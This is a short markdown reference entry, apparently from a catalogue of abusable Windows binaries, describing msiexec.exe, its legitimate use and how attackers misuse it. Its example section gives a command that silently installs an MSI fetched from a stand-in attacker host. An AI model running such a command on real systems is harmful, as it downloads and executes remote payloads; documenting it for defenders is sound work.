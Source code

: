 # msiexec.exe
## What is it?
*A command-line tool for installing, modifying, and repairing Windows Installer packages.*

## Legitimate Use
- *Used for deploying software via MSI packages.*

## How to Abuse it
- *Attackers can use it to download and execute remote payloads using crafted MSI files.*

## Example Attacks
```
msiexec /quiet /i http://attacker.com/malicious.msi
```
